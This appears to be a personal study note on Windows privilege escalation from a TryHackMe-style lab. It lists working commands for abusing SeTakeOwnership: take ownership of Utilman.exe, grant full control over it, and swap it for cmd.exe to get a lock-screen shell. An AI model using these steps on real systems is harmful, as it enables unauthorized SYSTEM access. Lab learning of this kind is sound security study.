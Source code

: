 
## SeTakeOwnership
### Description
This is a Windows Privilege that allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for your attack.

For example search for a service running as SYSTEM and take ownership of the service's .exe.

### Commands
1. `whoami /priv` = To check if we have this tag
2. This time we will use `utilman.exe`  this is a built in Windows application used to provide Ease Access options during the lock screen.
3. To  start we need to start by taking ownership of this .exe
```shell-session
takeown /f C:\Windows\System32\Utilman.exe
```
4. Now that we own it we need to assign ourselves with the privileges.
```shell-session
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```
5. Now replace the .exe we now own with a copy of `cmd.exe`
```shell-session
copy cmd.exe utilman.exe
```
6. For this example we are working with we can trigger the file we replaced by using Lock in our menu on the victim's machine. Then we can click on the "Ease of Access" button which is run by the "Utilman.exe" we replaced this will instead pop up a cmd terminal.


## SeImpersonate / SeAssignPrimaryToken
### Description
These Windows Privileges allow us to impersonate other users and act on their behalf. 


## Unpatched Software
### Description
We might find that a machine has outdated software.

### Commands
1. This command will allow us to dump most of the installed software but might not be all depending how they installed things. We should also keep an eye out for shortcuts we find.
```shell-session
wmic product get name,version,vendor
```
2. Next up use any exploit site or  just google to find if we have anything good




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 10th 2023 (09:07 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
